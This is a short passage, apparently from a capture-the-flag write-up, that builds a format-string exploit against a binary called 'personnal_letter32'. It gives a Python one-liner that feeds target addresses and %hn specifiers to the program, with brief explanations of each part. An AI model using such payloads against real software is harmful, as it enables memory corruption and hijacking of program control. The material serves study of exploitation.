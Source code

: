 </br>Now, let's go to write our script with these informations. 
```sh
python -c 'print "\x32\xa0\x04\x08\x30\xa0\x04\x08%2036x"+"%26$hn%32551x%27$hn"' | ./personnal_letter32
```
This part : "\x32\xa0\x04\x08\x30\xa0\x04\x08%2036x" write byte by byte in hexa.
</br>This part "%26$hn%32551x%27$hn" Write on a good addresses memory our payload. 


